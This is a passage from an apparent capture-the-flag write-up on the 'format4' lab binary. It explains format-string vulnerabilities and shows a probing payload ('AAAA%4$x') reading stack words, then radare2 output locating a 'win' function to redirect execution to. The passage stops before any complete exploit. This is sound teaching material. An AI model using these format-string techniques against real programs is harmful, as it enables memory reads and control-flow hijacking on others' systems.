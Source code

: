 The format specifiers are making `printf` read from the stack. As shown before, in the stack diagram, by using 4 `%x` modifiers it read 4 words from the stack, reaching into the start of the format string.

Using direct parameter access can simplify format string exploits. A direct parameter access specifier is denoted with the dollar sign `$` such as shown in the example below:

```C
printf("The 5th element is: %5$d and the 1st element is: %1$d", 100, 200, 300, 400, 500);
/*
* Result: 
* The 5th element is: 500 and the 1st element is: 100
*/
```

Direct parameter access can be used in this example. Instead of writing`AAAA%x%x%x%x` to print the first four words, the payload can be replaced to `AAAA%4$x` to access only the fourth parameter and print it in hexadecimal format:

```sh 
$ ./format4
AAAA%4$x
AAAA41414141
```

Now that the vulnerability has been confirmed, the next step is to analyze the rest of the program to understand how this vulnerability can be abused. An interesting function is the one called `hello`:

```sh 
[0x08048400]> afl
0x08048400    1 33           entry0
0x080483ac    1 6            sym.imp.__libc_start_main
0x08048430    6 85           sym.__do_global_dtors_aux
0x08048490    4 35           sym.frame_dummy
0x080485a0    4 42           sym.__do_global_ctors_aux
0x08048530    1 5            sym.__libc_csu_fini
0x080485cc    1 28           sym._fini
0x08048540    4 90           sym.__libc_csu_init
0x080484b4    1 30           sym.hello ; Interesting function
0x080483dc    1 6            sym.imp.puts
0x080483bc    1 6            sym.imp._exit
0x080484d2    1 66           sym.vuln
...
[0x08048400]> 
```

After inspecting the function, it is possible to see a "winning" string:

```sh
[0x0804838c]> pdf @ 0x080484b4
 30: sym.hello ();
           0x080484b4      55             push ebp
           0x080484b5      89e5           mov ebp, esp
           0x080484b7      83ec18         sub esp, 0x18
            ; Winning string:
           0x080484ba      c70424f08504.  mov dword [esp], str.code_execution_redirected__you_win ; [0x80485f0:4]=0x65646f63 ; "code execution redirected! you win" ; const char *s
           0x080484c1      e816ffffff     call sym.imp.puts           ; int puts(const char *s)
           0x080484c6      c70424010000.  mov dword [esp], 1          ; int status
           0x080484cd      e8eafeffff     call sym.imp._exit          ; void _exit(int status)
```
